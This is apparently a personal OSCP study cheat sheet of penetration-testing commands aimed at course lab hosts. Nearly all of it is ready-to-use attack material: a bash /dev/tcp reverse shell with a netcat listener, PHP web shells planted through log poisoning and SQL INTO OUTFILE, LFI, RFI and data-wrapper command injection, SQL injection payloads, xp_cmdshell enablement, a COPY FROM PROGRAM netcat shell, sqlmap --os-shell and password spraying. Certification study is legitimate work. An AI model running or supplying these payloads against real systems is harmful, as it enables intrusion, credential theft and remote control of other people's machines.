 # OSCP Notes

## Vital Tools

* wpscan https://github.com/wpscanteam/wpscan

## Reverse Shell 
```$ bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"```

```$ nc -nvlp 4444```

## RDP
`sudo xfreerdp /u:"jason" /drive:/root /v:192.168.247.203`

# Web

## File Upload Vuln

Upload Web shells...

Overwrite files by calling the filename "../../../../../../root/.ssh/authorized_keys"

Then maybe try to log in?

## Local File Inclusion

* Attempt to read the access log ->
```curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log```

### Log poisoning

* Does the applicatoin write to the log? Maybe add a php web shell to your headers...
 ```User-Agnet Mozilla/5.0 <?php echo system($_GET['cmd']); ?>```

### PHP (and Data) Wrappers

Gives the ability to read files... even php files. 

```curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php```

Will yield this... which decoded is the php code

```
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEuMCI+CiAgICA8dGl0bGU+TWFpbn...
dF9lcnJvcik7Cn0KZWNobyAiQ29ubmVjdGVkIHN1Y2Nlc3NmdWxseSI7Cj8+Cgo8L2JvZHk+CjwvaHRtbD4K
```

Or we can achieve command injection using a data wrapper:

```http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>```

### Remote File Inclusion

Reach out and touch your own hosted webshell

```curl "http://mountaindesserts.com/meteor/index.php?page=http://[my-ipaddress]/simple-backdoor.php&cmd=ls"```

## SQL Injection

### Connect and Nav

Login to MySQL using mysql: 

```$ mysql -u root -p'root' -h 192.168.50.16 -P 3306```

|MySQL Commands| 
|----| 
|  > select version();   |
|  > select system_user();   |
|  > show databases;   |

Login to MSSQL using impacket-mssqlclient: 

```$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth```

|MSSQL Commands| 
|----| 
|  > SELECT @@version;   |
|  > SELECT name FROM sys.databases;   |
|  > SELECT * FROM offsec.information_schema.tables;   |
| > select * from offsec.dbo.users; |


### GENERAL Attack Payloads:

```' or 1=1 in (select @@version) -- //```

```' OR 1=1 in (SELECT * FROM users) -- //```

```' or 1=1 in (SELECT password FROM users) -- //```

```' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //```


### UNION Attack Payloads:


```%' UNION SELECT database(), user(), @@version, null, null -- //```

```' UNION SELECT null, null, database(), user(), @@version  -- //```

```' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //```

```' UNION SELECT null, username, password, description, null FROM users -- //```


### Execute Commands

MSSQL Commands: 

```$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth```

```> EXECUTE sp_configure 'show advanced options', 1;```

```> RECONFIGURE;```

```> EXECUTE sp_configure 'xp_cmdshell',1;```

```> RECONFIGURE;```

```> EXECUTE xp_cmdshell 'whoami';```

### Write a Webshell Payloads:

```' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //```

### Command Execution with Stacked Queries:

```
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'nc -l -p -e /bin/sh';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
### SQL Map 

Usage Commands:

* Note -p specifies a parameter we want to test
* Note --os-shell tries to get a shell on target

```sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump```

OR intercept a Post request and use that to pass parameters

```sqlmap -r POST.req -p item  --os-shell  --web-root "/var/www/html/tmp"```


# WordPress

## Plugins

Remember, WP Plugins are exploitable. Verisons can be found in the source code

### Get WP Plugins

```wpscan --url {url_here}```

### WP Plugin CVEs

`https://github.com/Hacker5preme/Exploits/blob/main/README.md`

# SMB

Password guess: `crackmapexec smb 192.168.247.227 -u nadine -p /home/kali/rockyou.txt`

